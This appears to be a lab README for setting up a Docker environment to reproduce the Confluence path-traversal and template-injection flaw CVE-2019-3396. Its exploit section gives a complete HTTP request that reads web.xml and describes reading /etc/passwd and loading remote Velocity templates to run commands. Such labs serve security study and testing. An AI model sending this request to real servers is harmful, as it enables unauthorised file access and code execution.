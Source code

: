 # Atlassian Confluence Path Traversal Leads to RCE (CVE-2019-3396)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

An unauthorized directory traversal vulnerability exists before version 6.14.2 of Atlassian Confluence, which an attacker can read arbitrary files or execute arbitrary commands using Velocity template injection.

Reference:

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## Vulnerability Environment

Start a Confluence Server 6.10.2 by executing the following command.

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian:

![](1.png)

Then just click Next to install. This step of small memory VPS may fail to install or take a long time (it is recommended to use a machine with more than 4G memory for installation and testing), please wait patiently.

If prompted to fill in the cluster node, the path can be filled in with `/home/confluence`.

![](4.png)

You may be asked to fill in the database account password, choose the postgres database, the address is `db`, the account password is `postgres`:

![](5.png)

## Exploit

The file `web.xml` can be read by sending the following packet.

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId": "786458", "macro":{"name": "widget", "body":"", "params":{"url": "https://www.viddler.com/v/23464dc6", "width": "1000"," height": "1000","_template":". /web.xml"}}}
```

![](6.png)

Confluence before 6.12 did not restrict the protocol and path for file reading, we can use `file:///etc/passwd` to read files, or `https://...` to load remote files.

If the file is a Velocity template, and we can execute arbitrary commands via template injection (SSTI):

![](7.png)
